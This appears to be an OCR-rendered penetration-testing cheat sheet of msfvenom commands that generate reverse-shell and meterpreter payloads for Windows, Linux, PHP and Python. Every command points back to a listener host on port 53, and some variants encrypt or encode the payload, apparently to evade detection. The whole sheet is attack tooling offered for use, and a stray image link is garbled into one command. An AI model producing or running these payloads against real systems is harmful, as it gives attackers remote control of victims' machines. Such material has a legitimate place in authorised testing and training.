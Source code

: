 <h3>generate payload - - msfvenom</h3>
<h5>windows</h5>
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.5.5 LPORT=53 -f exe > name.exe`
OR (encrypted)
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=wlan0 LPORT=53 -f raw --encrypt xor --encrypt-key “encryption key mo dito” -o shell.bin

![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)`

<h5>linux</h5>
`msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.X.X LPORT=53 > linux`
OR
`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=<lhost> LPORT=<lport>`
OR -- PHP w/ iteration
`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.2.2 LPORT=53 -e php/base64 -i 1 > file.php`

<h5>python</h5>
`msfvenom -p python/shell_reverse_tcp LHOST=192.168.2.2 LPORT=53 > file`